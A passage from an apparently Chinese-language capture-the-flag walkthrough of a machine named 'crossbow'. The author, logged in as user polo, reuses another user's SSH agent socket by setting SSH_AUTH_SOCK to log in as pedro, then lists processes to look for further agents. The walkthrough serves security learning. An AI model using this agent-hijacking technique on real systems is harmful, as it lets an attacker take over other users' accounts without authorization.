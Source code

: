 看来有机会啊！

尝试一下别的用户：

```apl
lea
polo
pedro
```

```bash
(remote) polo@crossbow:/tmp/ssh-XXXXXXvsuvXX$ SSH_AUTH_SOCK=/tmp/ssh-XXXXXXcE94FH/agent.1089  ssh pedro@172.20.10.3
pedro@172.20.10.3's password:
```

对胃了，看来这个密钥的认证和pedro的是一样的！查看一下进程，没有发现`pedro`相关的，可惜。

```bash
ps -u pedro -o pid=
```

再找一下：

```bash
ps -ef | grep ssh-agent
```

没有收获，查看一下进程：

```bash
(remote) polo@crossbow:/tmp/ssh-XXXXXXvsuvXX$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  4.6  1.5  36932 31208 ?        Ss   12:01   4:04 /usr/bin/python3 /usr/bin/supervisord
root           6  0.0  0.0   2576   888 ?        S    12:01   0:00 /bin/sh /usr/sbin/apachectl -D FOREGROUND
root           8  0.0  0.4 162176  8364 ?        Sl   12:01   0:00 /usr/lib/cockpit/cockpit-ws --no-tls
lea           13  9.1  0.1   4564  3400 ?        S    12:01   7:59 /bin/bash /home/lea/.local/agent
root          20  0.0  1.2 201120 24412 ?        S    12:01   0:00 /usr/sbin/apache2 -D FOREGROUND
root          26  0.0  0.1   3976  2132 ?        Ss   12:01   0:00 /usr/sbin/cron
root          30  0.0  0.1  15404  3356 ?        Ss   12:01   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
www-data      58  0.3  0.6 201856 12680 ?        S    12:01   0:15 /usr/sbin/apache2 -D FOREGROUND
lea         1089  0.0  0.1   7792  2964 ?        Ss   12:01   0:00 ssh-agent
www-data  154228  0.3  0.6 201856 12684 ?        S    12:05   0:15 /usr/sbin/apache2 -D FOREGROUND
www-data  154262  0.3  0.6 201856 12676 ?        S    12:05   0:15 /usr/sbin/apache2 -D FOREGROUND
www-data  154300  0.3  0.6 201856 12696 ?        S    12:05   0:15 /usr/sbin/apache2 -D FOREGROUND
www-data  263666  0.3  0.6 201856 12708 ?        S    12:09   0:15 /usr/sbin/apache2 -D FOREGROUND
www-data  263719  0.3  0.6 201704 12420 ?        S    12:09   0:15 /usr/sbin/apache2 -D FOREGROUND
www-data  263751  0.3  0.6 201712 12420 ?        S    12:09   0:15 /usr/sbin/apache2 -D FOREGROUND
www-data  263752  0.3  0.6 201868 12684 ?        S    12:09   0:15 /usr/sbin/apache2 -D FOREGROUND
www-data  263753  0.3  0.6 201856 12704 ?        S    12:09   0:15 /usr/sbin/apache2 -D FOREGROUND
www-data  263754  0.3  0.6 201848 12656 ?        S    12:09   0:15 /usr/sbin/apache2 -D FOREGROUND
root     1258977  0.0  0.2  11664  5484 ?        S    12:44   0:00 /usr/lib/cockpit/cockpit-session localhost
polo     1259061  0.0  0.0   7660   776 ?        Ss   12:44   0:00 /usr/bin/ssh-agent
polo     1259123  0.0  0.4 309328  9084 ?        Sl   12:44   0:00 cockpit-bridge
polo     1259141  0.0  0.2   8988  4148 ?        S    12:44   0:00 dbus-daemon --print-address --session
polo     1266731  0.0  0.1   4608  3596 pts/0    Ss   12:45   0:00 /bin/bash
polo     1310390  0.0  0.1   4608  3692 pts/0    S    12:46   0:00 bash -i
polo     1310771  0.0  0.0   2936  1056 pts/0    S+   12:46   0:00 /usr/bin/script -qc /usr/bin/bash /dev/null
polo     1310773  0.0  0.1   4740  3864 pts/1    Ss   12:46   0:00 /usr/bin/bash
polo     2575630  0.0  0.2   8536  4208 pts/1    R+   13:28   0:00 ps aux
lea      2575631  0.0  0.0   4728  1440 ?        R    13:28   0:00 find /tmp -name ssh-* -type d
```

